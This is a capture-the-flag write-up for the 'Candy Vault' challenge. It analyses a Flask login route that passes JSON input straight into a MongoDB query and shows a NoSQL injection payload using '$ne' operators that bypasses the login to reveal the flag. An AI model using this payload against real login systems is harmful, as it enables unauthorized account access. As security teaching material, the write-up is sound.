


Candy Vault
===========

## Solution

- The challenge starts with a simple login page:



- Reviewing the source code, we find the `/login` endpoint:
```python
@app.route("/login", methods=["POST"])
def login():
    content_type = request.headers.get("Content-Type")

    if content_type == "application/x-www-form-urlencoded":
        email = request.form.get("email")
        password = request.form.get("password")

    elif content_type == "application/json":
        data = request.get_json()
        email = data.get("email")
        password = data.get("password")
    
    else:
        return jsonify({"error": "Unsupported Content-Type"}), 400

    user = users_collection.find_one({"email": email, "password": password})

    if user:
        return render_template("candy.html", flag=open("flag.txt").read())
    else:
        return redirect("/")
```
- From the above code, it is clear that to read the flag, we need to log in with the correct user credentials.
- The source code of `migrate.py`:
```python
import random
from faker import Faker
from pymongo import MongoClient

from application.config import Config

fake = Faker()
client = MongoClient(Config.MONGO_URI)
db = client[Config.DB_NAME]
users_collection = db["users"]

def generate_random_user():
    email = fake.email()
    password = fake.password()
    return {
        "email": email,
        "password": password
    }


def start_migration():
    num_users = 10
    for _ in range(num_users):
        random_user = generate_random_user()
        users_collection.insert_one(random_user)
```
- It is evident that this application uses MongoDB as its database with the `pymongo` library, and upon initialization, it inserts 10 random users into the database.
- There seems to be no way to leak user credentials. Let's revisit the source code at the login endpoint. Notice that if the `Content-Type` is `application/json`, the `request.get_json()` function converts the JSON into Python objects (including dictionaries) and directly passes it to `find_one()` without any filtering:
```python
elif content_type == "application/json":
        data = request.get_json()
        email = data.get("email")
        password = data.get("password")
```
- In MongoDB, you can use query operators like `$ne` (not equal), `$gt` (greater than), etc. If an attacker sends a JSON object instead of a simple string, `pymongo` will interpret it as part of the query statement.
- You can send a POST request to `/login` with the following payload to log in successfully without knowing the username or password:

```
POST /login HTTP/1.1
Content-Type: application/json

{
    "email": {"$ne": null},
    "password": {"$ne": null}
}
```
- Explanation: The actual query will become: `db.users.findOne({"email": {"$ne": null}, "password": {"$ne": null}})`

This means: "Find a user whose email is not null AND password is not null". Since the database always has users (created by `migrate.py`), this condition is always true and returns the first user, leading to the application displaying the flag.

